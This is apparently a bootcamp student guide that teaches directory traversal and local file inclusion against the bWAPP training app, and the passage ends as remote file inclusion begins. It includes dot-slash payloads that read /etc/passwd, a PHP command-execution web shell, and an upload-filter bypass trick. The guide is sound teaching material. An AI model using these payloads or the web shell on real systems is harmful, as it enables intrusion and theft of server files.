# 15.2 Student Guide: Back-End Component Vulnerabilities
 
## Overview

Today's class is the second part of our introduction to web vulnerabilities. You will learn about the vulnerabilities that exist within web applications' backend components, and then subsequently learn how to conduct exploits against them. You will specifically learn about directory traversal and local and remote file inclusion exploits. Additionally, you will learn mitigation methods used to protect against these vulnerabilities.

## Class Objectives

- Differentiate between front-end and back-end component vulnerabilities.

- View confidential files with a directory traversal attack by using the dot-slash method.

- Exploit a web application's file upload functionality to conduct a local file inclusion attack.

- Modify a web application's URL to use a malicious remote script to conduct three different remote file inclusion attacks.

## Slideshow 

- [15.2 Slides](https://docs.google.com/presentation/d/1OmTKM8jlAm_xleWDI6zoiO4r5ClSDSguieauuIQcAVc/edit#slide=id.g4789b2c72f_0_6).

---

### 01. Intro to Back-End Component Vulnerabilities 

Before we introduce new vulnerabilities, let's review the concepts covered so far:

- Web vulnerabilities are weaknesses that exist within the intended purposes of a web application.

  - Malicious actors can exploit these web vulnerabilities to cause unintended consequences.

- The OWASP Top 10 is a list used by security professionals and web developers that represents a broad consensus of the most critical web application risks.

- The number one risk on the OWASP Top 10 list is injection.

- **Injection** is a specific type of attack that occurs when an attacker supplies untrusted input to an application. The payload is processed as part of a query or command that alters the intended functionality of a program.

- There are various types of injection, depending on the architecture and functionality of the application.

  - **SQL injection**:

    - Conducted by an attacker inserting malicious SQL statements into a web application.

    - Depends on the application running queries against a SQL database.

  - **Cross-site scripting (XSS)**:

    - Conducted by an attacker inserting malicious JavaScript into into a web application.

    - Depends on the application modifying the client-side code with a user's input.
    
    - The two types of XSS include the following: 

        - **Reflected**: Depends on user input being immediately returned to the user and not stored on the application's server.

        - **Stored**: Depends on the user input being stored on the application's server and later retrieved by a victim accessing the web application.

  - Injection can be mitigated by using a technique called **input validation**.

     - Input validation is a method used to validate the data input with a predefined logic to ensure that the input is what the application is expecting. 
     
#### Back-End Component Vulnerabilities 
     
In the second half of the previous class, we covered cross-site scripting vulnerabilities that exist with **JavaScript** and **HTML**.

  - These languages are considered **front-end components**, as they form the part of the web application that the user interacts with, typically with a browser. 

  - Another front-end component is **Cascading Style Sheets (CSS)**, which formats the layout of the HTML.
 
In today's class, we will focus on vulnerabilities that can exist within **back-end components**.

  - These components apply the business logic of how the application works, including file structure, content management, and access control.

  - They include back-end languages such as **PHP** and **Java**.
  
Vulnerabilities in **back-end components** could allow a malicious actor to potentially access or view confidential files or documents that exist on an organization's private server.
 
  

  - On the left, an intended purpose of an application involves a user accessing a webpage and viewing prices of several products at an online store.

    - The query that retrieves the product prices is the **applied business logic**.

  - On the right, a malicious actor has changed the URL to view confidential files, such as employee salaries, which are NOT intended to be displayed to users.

  - This is a vulnerability that typically exists within an organization's back-end filesystem.
  
While we haven't covered the details of this vulnerability yet, or explained how to conduct this type of attack, this example illustrates the significant potential impacts to a business with vulnerabilities in their back-end components. 

  - In the example, an organization could be liable to their employees if they exposed their confidential information.
  
#### Lesson Overview
  
Today's class will cover three attacks that exist within back-end component vulnerabilities. The class will proceed as follows:

 - We will begin by demonstrating how an attacker can use a **directory traversal attack** to view an organization's confidential data.

 - Then we will learn how an attacker can use a common web application file upload functionality to conduct a **local file inclusion attack**.

 - Lastly, we will demonstrate another file inclusion attack, called a **remote file inclusion attack**, in which an attacker can reference remote malicious scripts through the URL.
  
Note that we will continue to learn how each of these vulnerabilities exist and be able to safely exploit them within the test environment!  

| :warning: **IMPORTANT**: :warning: |
|:-:|
| The techniques that we will learn throughout this unit can be used to cause serious damage to an organization's systems. This is ILLEGAL when done without permission. All of the labs we provide are safe locations to test the methods and tools taught during the week. 
NEVER apply any of these methods to any web applications you do not own or do not have clear, written permission to be interacting with.|

## 02.  Directory Traversal 

We just learned that **back-end components** can also have vulnerabilities that can impact an organization's web application.

**Directory traversal** is the first back-end component vulnerability we will cover today. 

- **Directory traversal**, also known as path traversal, occurs when an attacker accesses files and directories from a web application outside a user's authorized permissions.

- Using this attack, a malicious actor could view confidential business documents, source code, or critical system files that exist within an organization's private server&mdash;directly from a web application.

- Directory traversal primarily falls under the OWASP Top 10 risk category **broken access control**.

  - Broken access control is #5 on the OWASP Top 10 list.

  - Per OWASP, broken access control is explained as follows: 
  
      - "Restrictions on what authenticated users are allowed to do are often not properly enforced. Attackers can exploit these flaws to access unauthorized functionality and/or data, such as access other users’ accounts, view sensitive files, modify other users’ data, change access rights, etc."
            
  - Note that directory traversal falls under broken access control because an attacker could exploit flaws in the permissions of back-end files to view unauthorized sensitive data.

Before we learn how to conduct a directory traversal attack, we need to understand what happens behind the scenes as an application interacts with the file structure of a web application. This will be demonstrated by covering the following:

 - The intended purpose of the web application.

 - How the application accesses files and directories from a web server.

 - Modification of the URL to view unintended files.

 - Traversing directories to view additional unintended files with the **dot-slash** method.

#### Demo Setup

- Launch Vagrant and open the command line.

- Run the following:

  - `cd ./Documents/web-vulns && docker-compose up`

- Leave this page open and open a browser within Vagrant.

- Access the bWAPP app by entering the following URL in your browser: <http://192.168.13.35/install.php>.

- On the bWAPP site, you will find the sentence **Click here to install bWAPP.** Click where indicated to install bWAPP. 

- Return to <http://192.168.13.35/> and log in with the following credentials:

   - Login: `bee`

   - Password: `bug`

- Leave the security level at **low** and select Login.

- To access the **Directory Traversal - Files** vulnerability page, enter in the following URL:

  - <http://192.168.13.35/directory_traversal_1.php?page=message.txt>
 
#### Demonstration

For this demonstration, we will continue to play the role of security analysts at an organization that recently developed a new application. We will be testing whether this application is vulnerable to directory traversal attacks.

1. Test the intended purpose of the web application.
          
   - This new web application displays the contents of a file, `message.txt`, from a web server. 
   
    - The file `message.txt` contains the text "Try to climb higher Spidy..."
   
    - Note how the text from the file is displayed on the webpage. 
    
   - Note the URL on this webpage: <http://192.168.1.100/bWAPP/directory_traversal_1.php?page=message.txt>.

    - This URL contains a parameter that indicates which file's contents need to be displayed.

    - The parameter is `?page=message.txt`.

    - This parameter instructs the web application to display the contents of the webpage `message.txt`.
    
       

2. Determine how the application accesses files and directories from a web server.

   - We will now explore how the web application accesses this file.

   - Open a terminal within Vagrant and enter the following command: `docker exec -it bwapp bash`.

     - This command will connect to the web server that works with this webpage.
   
   - Navigate to the directory where the `message.txt` file exists by running the following command: `cd /var/www/html`.
      
      - Note that `/var/www/html` is the default root folder of the web server, where web server files are stored.
    
    - Type in the following command to see that the `message.txt` file is in this directory: `ls message.txt`.

    - The contents of this file match what was on the webpage by running `more message.txt`.
    
    - This command should also display the message `Try to climb higher Spidy...`.
  
       

   - Note that this shows that the intended purpose of this application includes the following:
     
     - Access the contents of a file using a parameter in the URL: `?page=`.
     
     - Pull the file indicated in the parameter from the following directory of the web server: `/var/www/html`.
  
3. Modify the URL to view unintended files. 

   Now that we know the intended purpose of the application, let's check whether we can modify the URL to cause unintended results.

   - From the terminal, in the `/var/www/html` directory, run the following command to show all the `.txt` files in that directory: `ls *.txt`.

   - Note that along with the `message.txt` file, three other files exists: 
      
      - `bugs.txt`
      
      - `bugs_owasp_top10_2010.txt`
      
      - `robots.txt`

   - Let's preview the contents of `bugs.txt` by running the following command: `head bugs.txt`.

   - Note that the contents of this file are a list of existing vulnerabilities: 

       

   Let's check whether we can modify the parameter of the URL to view the `bugs.txt` file.

   - Return to the browser and make sure that you are still on the following webpage: <http://192.168.1.100/bWAPP/directory_traversal_1.php?page=message.txt>.
   
   - Now we will change the parameter value of `message.txt` to `bugs.txt`.
   
   - The new URL should be <http://192.168.1.100/bWAPP/directory_traversal_1.php?page=bugs.txt>
   
   - Press Enter. The contents of the webpage now display the unintended results of another file, `bugs.txt`:
  
       

   This illustrates a weakness in the application by which we can view OTHER unintended files within the same directory.
  
4. We can traverse directories to view additional unintended files with the **dot-slash** method.

    We just modified the URL to view files within the same directory. Now we'll attempt directory traversal by trying to view critical files located in OTHER directories on the web server.

   - During the Linux unit, we covered `/etc/passwd`, a file that contains sensitive data. Additionally, remind the class that the `/etc/passwd/` file contains a list of system and user accounts.
    
   - If a malicious user has access to the `/etc/passwd` file, they can uncover the following:
     
     - Usernames they can access by using brute force.
     
     - Services and applications running on the system that might have other vulnerabilities to exploit.
  
   - The `/etc/passwd` file is not in the same directory that the application is accessing the files from.

   - Therefore, if we want to view this file from the command line, we need to go back three directories. Both `etc` and `var` are at the top of the Linux directory structure.
  
   - The following image shows how to access the top of the directory structure:
  
       
      
      - For each directory we go back, we have to use the two dots and a slash: `../`
  
   Let's execute this attack now.
   
   - Return to the terminal and make sure that you are still in the `/var/www/html` directory.

   - Run the following command to show how using three `../` can enable us to view the `/etc/passwd` file from the `/var/www/html` directory:

      - `cat ../../../etc/passwd`

       
  
   - This command is the equivalent of running all of the following commands sequentially:
     
     - `cd ..`: Back one directory.
     
     - `cd ..`: Back another directory.
     
     - `cd ..`: Back another directory.
     
     - `cd etc`: Forward into the `etc` directory.
     
     - `cat passwd`: Cat the `passwd` file.
  
   We will now apply the same logic that we used on the terminal to view the `/etc/passwd/` file from the web application.

   - Return to the browser and make sure that you are still on the following webpage: <http://192.168.1.100/bWAPP/directory_traversal_1.php?page=bugs.txt>.

   - Change the parameter value of `bugs.txt` to the same value we entered on the terminal to view the `/etc/passwd` file: `../../../etc/passwd`.

   - The new URL should be <http://192.168.1.100/bWAPP/directory_traversal_1.php?page=../../../etc/passwd>.

   - Press Enter. The contents of the webpage display the unintended results of a critical system file in another directory.

     - Additionally, the image shows that we took what was entered in the terminal and added directly into the parameter.
  
       

The steps we just applied to view sensitive files in other directories is known as a **directory traversal attack**.
 
  - The method in which we used the `../` syntax is known as the **dot-slash method**.

#### Real-World Challenges

Note that while the purpose of the lesson was to illustrate how modifying the URL with the **dot-slash method** can cause unintended results, in the real world, we need to consider the following: 

- **Access to filesystem structure**: In the demonstration we were able to preview back-end systems to view the file structures. In the real world, application security analysts would likely not have access to the filesystems.

  - Security analysts must figure out which files are accessible and how many dot-slashes to use to access certain files.

  - For example, if `../../../etc/passwd` doesn't display the contents, we can try to keep adding the dot-slashes until the file is displayed:
    
    - `../../../etc/passwd`
   
    - `../../../../etc/passwd`
   
    - `../../../../../etc/passwd`
      
- **Variety of confidential files and data**: While the demonstration illustrates one file, `/etc/passwd`, many other system files or documents might exist that are not intended to be viewed by an attacker, such as the following:

    - `/etc/groups`: To view information on groups that exist on the server.
   
    - `/etc/hosts`: To view information on how IPs are mapped to hostnames.
        
#### Impact

Impacts of directory traversal attacks include allowing malicious actors to do the following: 
  
  - View an organization's confidential data.
  
  - View an organization's system files to determine other vulnerabilities.
  
  - Help an attacker launch other attacks.
  
#### Mitigation Methods

Because a directory traversal attack is conducted by using the dot-slash method to modify user input like the URL, methods to mitigate this attack include the following: 

- Limiting user input when calling for files from the web application.

- If the application does require user input when calling for files, using **input validation** to limit the user's ability to modify the file being accessed.

- Web servers should run under a special service user account that only has access to that web folder. Apache typically uses the `www-data` account.

#### Directory Traversal Summary

- **The intended purpose of the original function**: A web application interacts with its web server to access intended files.

- **The vulnerability and method of exploit**: With the directory traversal attack, a user can modify the user input using a dot-slash method to access unintended files in other directories.

- **The unintended consequence of the exploit**: Confidential documents or system files can be accessed directly from the web application by a malicious user.

- **The mitigation of the vulnerability**: Mitigation includes applying input validation code logic or limiting user input when calling for system files.

- **The potential impact of the exploit**: The impact could include unauthorized parties viewing an organization's confidential data within their servers. This unauthorized data could be used to launch other attacks.
 
### 03. Directory Traversal Activity

- [Activity File: Directory Traversal](Activities/02_Directory_Traversal/Unsolved/README.md)

### 04. Directory Traversal Activity Review

- [Solution Guide: Directory Traversal](Activities/02_Directory_Traversal/Solved/README.md)

### 05.  Web Application Back-End Code 

Recap:

- Web applications use **back-end components** to apply the business logic to an application. Back-end components can provide file structure, content management, and access control and include back-end languages such as **PHP** and **Java**.

- Web application vulnerabilities can exist within **back-end components**.

- Directory traversal is a back-end component vulnerability in which an attacker accesses files and directories from a web application outside a user's authorized permissions.

  - Note that while directory traversal is a back-end component vulnerability that can cause significant impact, the direct impact is limited to an attacker viewing unauthorized data.

There is another type of back-end component vulnerability called **local file inclusion (LFI)**, which could not only impact the viewing of unauthorized data but also impact the modification and deletion of data, as well as cause system outages.

  - **Local file inclusion** is a web application vulnerability in which an attacker tricks the application to run unintended back-end code or scripts that are local to the application's filesystem.
  
  - In other words, the scripts reside on the web application's server.

  - Local file inclusion is typically conducted by using a file upload feature to upload malicious scripts into the application's local filesystem.

  - Common examples of file upload web applications include the following: 

    - Uploading your resume for an online job listing.
  
    - Uploading and viewing images on a social media website.
  
  - Depending on how the attack is conducted, local file inclusion could fall under the following OWASP Top 10 risks: 
  
    - Broken access control 
  
    - Sensitive data exposure 
  
    - Security misconfiguration 
    
Before we learn the details of conducting an LFI exploit, we need to review how a web application runs back-end code like PHP.

#### PHP

We've previously discussed one back-end language called **PHP**.

- Review the following about PHP:

    - PHP stands for **Hypertext Preprocessor**.

    - PHP is a server-side language used to develop web applications.

    - PHP files have a `.php` file extension.

    - PHP is often used to do the following:

       - Connect to back-end databases such as MySQL.

       - Create and work with website cookies.
           
Let's review a high-level example of how a PHP script works:

- In this example, a user wants to view different types of boats at mycoolboat.com.

- The different types of boats are stored in a database on mycoolboat's servers.

The following steps occur:

1. A user visits their favorite boating website: mycoolboat.com.

2. While on mycoolboat.com, the user clicks a Shopping link to redirect to a `.php` webpage (mycoolboat.com/shopping.php) where they can view boats for sale.

3. An HTTP request is made to the web server.

4. The web server for mycoolboat.com **preprocesses** the PHP scripts to request the list of boats from mycoolboat's database.

5. The database returns the requested data, and the web server sends the processed HTML back to the user with an HTTP response.

6. The user's browser renders the HTML to display the list of boats back to the user.

In the example, the browser initiated a request to run the PHP script simply by accessing the page. The PHP script exists and runs on the back-end server.
    
Now that we know that PHP is a language that provides back-end functionality to a webpage, we will see how the vulnerability of local file inclusion can use this functionality to cause unintended results.

### 07. Local File Inclusion 

Recap:

 - **Local file inclusion** is a web application vulnerability in which an attacker tricks the application to run unintended back-end code or scripts that are local to the application's filesystem.

 - **PHP** is a back-end coding language that web applications use to run back-end scripts.
 
Now we will merge these concepts to demonstrate a **local file inclusion attack**, running an unintended **PHP** script. This will be conducted by exploiting a file upload functionality on a working web application.

#### LFI Demo Setup

In this demonstration, we will do the following:

- Illustrate how a web application can use PHP and HTML together.

- Show the intended purpose of a web application's file upload functionality.

- Upload a malicious PHP script.

- Run command-line commands with the malicious PHP script.

Set up:

- Continue using the bWAPP application at <http://192.168.13.35/>.

- Access the File Upload vulnerability page by entering the following URL: <http://192.168.1.100/bWAPP/unrestricted_file_upload.php>

- The page should look like the following image:
 
   
  
#### LFI Demonstration

1. The functionality of this webpage is for a user to upload and then view their image.

    - Note that the end of the URL is a `.php` webpage.

    - This means that when we access the page, the web server runs the PHP code that resides on this web server.

    - The PHP code assists with the file upload functionality.
  
       
  
2. Let's look behind the scenes to preview how this works.

   - Return to your terminal within Vagrant, and enter the following command again to access the bWAPP container: `docker exec -it bwapp bash`.

     - This command will connect to the web server that works with this webpage.

   - Return to the directory where the file for this webpage exists: `cd /var/www/html`.
  
   - Run the following command to show the PHP webpage's file: `ls unrestricted_file_upload.php`.
        
       
        
   -  Now we will preview the contents of the file: `more unrestricted_file_upload.php`.

3. Note the following items within the file:

    - `<?php`, at the top of the script, indicates the start of the PHP script that the server is intended to run.
  
      - `?>` indicates the termination of the PHP script.
      
      - The back-end code appears between `<?php` and `?>`.
      
       
  
    - Press the space bar once.

       

     - This is PHP code that assists with the file upload functionality.
   
     - For the scope of the class, it is NOT important to understand all the syntax of this code; just know that this is the PHP code that the back-end server runs.
     
      - :books: If you want to learn more about PHP coding, refer to the following resource: [W3Schools: PHP Introduction](https://www.w3schools.com/php/php_intro.asp).

   - Push the space bar two times.

       
   
     - Contained within this PHP webpage (WITH the PHP code) is HTML code.

     - This is the front-end code that is returned to the browser to render what you see on the webpage.
     
   - Let's recap the steps so far:

      - When you access a `.php` webpage, an HTTP request is sent to the back-end server.

      - The back-end server processes all back-end code, such as PHP code between `<?php` and `?>`.

      - The back-end server sends back the processed code, including the HTML.

      - The browser renders the HTML to display what is viewed on a webpage.
      
4. Next we will upload an image to show the intended purpose of a web application's file upload functionality.

    - Return to the file upload webpage at <http://192.168.1.100/bWAPP/unrestricted_file_upload.php>.

    - We will upload an image that has already been added to the desktop of the computer.
      
      - Select Browse.
      
      - From the desktop, select the image `sample_picture.jpg`. This should take you back to the file upload webpage and show the image selected.
      
      - Select Upload.

      - It should display the following image:

         
  
    - Select **here** to take you to the image that was just uploaded. This will take you to a page to display the image!

    - Point to the URL of this page: <http://192.168.1.100/bWAPP/images/sample_picture.jpg>. Specifically note the `.jpg` extension.
 
    - Return to the terminal and access the images directory, then show that the image we uploaded was added to the filesystem: 
 
      - `cd images`
 
      - `ls sample-image.jpg`
 
    - This step shows the intended functionality of the web application: to allow a user to upload image files to the web application's local filesystem, which can later be accessed and displayed by the user.
  
5. Next we'll upload a malicious PHP script. We will use a custom PHP script called `script.php`, which is designed to enable a malicious user to execute code remotely. 

    - This script looks as follows (note that you don't need to understand the syntax of this script just yet):

          <?php
          $command = $_GET['cmd'];
          echo system($command);
          ?>
 
    - Return to the desktop of your Vagrant machine and note that the script has already been created and added there.

6. Return to the file upload webpage. We will now upload this unintended malicious PHP script instead of an image.

   - Select Browse.

   - From Desktop, select `script.php`.

     - This should take you back to the file upload webpage and show the image selected.

   - Select Upload.

   - This will display the following image again:

       

   - Remember: we just learned that accessing a `.php` page will create a request for the back-end server to execute the script.

   - Select **here** to navigate to the script that was just uploaded.

     - Note that when this page appears, we see a blank webpage, and nothing has happened:

         

   - This result is expected. While the back-end server did run the PHP script, this is a custom script that is designed to take a parameter in the URL to tell the server which commands to run.
  
7. Finally, we will run the command line with the malicious PHP script. 

    - Run the `ifconfig` command to display network information about the web server. 

      - Point to the URL of this webpage: <http://192.168.1.100/bWAPP/images/script.php>.
  
      - To run a command such as `ifconfig` with the script, we need to add a parameter to the URL.
    
      - Remember that a parameter begins with a `?`.
 
   - Run the following parameterized `ifconfig` command: `?cmd=ifconfig`.
   
      - The URL should now look like the following image: 

         
   
   - Note that the page shows the results of the `ifconfig` command:

       

      - Note it is expected to display the results twice.
 
   - To explore what just occurred behind the scenes on the terminal, return to the command line and run the same command that we used in the URL: `ifconfig`.
    
   - Note that the results here match what was displayed on the web application:

      
 
   - Repeat these same steps with the following `ls` command and view the results: <http://192.168.1.100/bWAPP/images/script.php?cmd=ls>
 
#### Demonstration Summary 
 
Being able to successfully upload and run this script indicates that this web application is vulnerable to **local file inclusion**.

  - We were able to **include** (upload) a **file** (script) **locally** on the target filesystem, then have that unintended script run.

  - Also note that the ability to arbitrarily execute command-line code with the script means that this web application is also vulnerable to **remote code execution**.

    - Define **remote code execution,** or **RCE**, as a type of attack in which a malicious actor can execute arbitrary commands on a target machine.
    
#### Real-World Challenges

While the purpose of the lesson highlighted the risk to an application that allows a user to include files locally in its system, in the real-world, we need to be aware of several issues not covered in this lesson. 

- **Variety of attacks**: The demonstration illustrated using one type of malicious script and two command-line commands.
  
  - Thousands of malicious scripts can be uploaded, and many malicious commands can be run.
  
  - The attack method used the PHP language, but this attack can also be accomplished with other languages, such as ASP. 
      
#### Impact

If a malicious actor can upload a malicious script, they can potentially do the following:

- View confidential files or data.

- Modify or delete confidential files or data.

- Modify or delete critical files to cause system disruptions.
    
#### Mitigation Methods

The best way to protect from LFI is to restrict users from being able to upload files into the local filesystem.

- If the application requires this upload functionality, then the application should use **allow listing** to ensure that only a specific file type like `.jpg` is uploaded, and not an arbitrary script file type, such as `.php`.

  - Note that some sites will block uploads based off of the extension name. This can be bypassed by changing the extension name. For example: `.php` >>> `.php5`.

#### Local File Inclusion Summary

Summarize the last concept by covering the following:

- **The intended purpose of the original function**: Web applications use file upload functionalities to enable a user to upload files into their local filesystem.

- **The vulnerability and method of exploit**: Local file inclusion is a vulnerability in which a malicious user can use the file upload functionality to upload unintended scripts into the web server's local filesystem.

- **The unintended consequence of the exploit**: After the malicious script has been uploaded, a malicious user can run the script to cause unintended consequences.

- **The mitigation of the vulnerability**: Limit file upload capabilities or use **allow listing** to restrict unintended file types.

- **The potential impact of the exploit**: A malicious actor can view or modify confidential data or system files or potentially cause system outages.
 

### 07. Local File Inclusion Activity 

- [Activity File: Local File Inclusion](Activities/07_Local_File_Inclusion/Unsolved/README.md)

### 08. Local File Inclusion Activity 

- [Solution Guide: Local File Inclusion](Activities/07_Local_File_Inclusion/Solved/README.md)

### 10. Instructor Do: Remote File Inclusion (0:10)

Recap: 

- **Directory traversal** is a back-end component vulnerability in which an attacker accesses files and directories from a web application outside a user's authorized permissions.

- **Local file inclusion** is another back-end component vulnerability, in which an attacker tricks the application to run unintended back-end code or scripts that are LOCAL to the application's filesystem.

- Local file inclusion depends on allowing a user to use unintended scripts that are LOCAL to the web server.

Just because an application doesn't allow a malicious user to add files into their local system, it doesn't guarantee that they are protected from an attacker being able to run unintended back-end code or scripts.

- Another type of back-end component vulnerability, **remote file inclusion (RFI)**, involves using **remote** files or scripts to conduct a similar attack.

  - **Remote file inclusion** as a web application vulnerability in which an attacker tricks the application to run unintended back-end code or scripts that are **remote** to the application's filesystem.

  - In other words, the scripts DO NOT reside on the web application's server.

  - Remote file inclusion is typically conducted by modifying the parameter of a URL to point to a remote script.

  - Similar to **local file inclusion**, depending on how the attack is conducted, remote file inclusion can fall under the following OWASP Top 10 risks: 

